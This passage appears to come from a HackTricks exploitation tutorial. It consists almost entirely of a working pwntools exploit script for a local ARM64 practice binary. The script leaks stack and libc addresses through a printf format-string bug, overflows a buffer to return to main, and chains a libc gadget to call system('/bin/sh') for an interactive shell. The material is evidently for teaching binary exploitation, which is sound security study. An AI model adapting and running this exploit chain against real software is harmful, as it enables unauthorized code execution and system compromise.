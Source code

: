 ### Exploit

```python
from pwn import *
from time import sleep

p = process('./rop')  # For local binary
libc = ELF("/usr/lib/aarch64-linux-gnu/libc.so.6")

def leak_printf(payload, is_main_addr=False):
    p.sendlineafter(b">\n" ,payload)
    response = p.recvline().strip()[2:] #Remove new line and "0x" prefix
    if is_main_addr:
        response = response[:-4] + b"0000"
    return int(response, 16)

def expl_bof(payload):
    p.recv()
    p.sendline(payload)

# Get main address
main_address = leak_printf(b"%21$p", True)
print(f"Bin address: {hex(main_address)}")

# Ret2main
stack_offset = 108
main_call_printf_offset = 0x860 #Offset inside main to call printfleak
print("Going back to " + str(hex(main_address + main_call_printf_offset)))
ret2main = b"A"*stack_offset + p64(main_address + main_call_printf_offset)
expl_bof(ret2main)

# libc
libc_base_address = leak_printf(b"%25$p") - 0x26dc4
libc.address = libc_base_address
print(f"Libc address: {hex(libc_base_address)}")
binsh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

# ret2system
ldr_x0_ret = p64(libc.address + 0x49c40) # ldr x0, [sp, #0x78]; ldp x29, x30, [sp], #0xc0; ret;

x29 = b"AAAAAAAA"
x30 = p64(system)
fill = b"A" * (0x78 - 0x10)
x0 = p64(binsh)

payload = b"A"*stack_offset + ldr_x0_ret + x29 + x30 + fill + x0
p.sendline(payload)

p.interactive()
```

{{#include ../../../banners/hacktricks-training.md}}


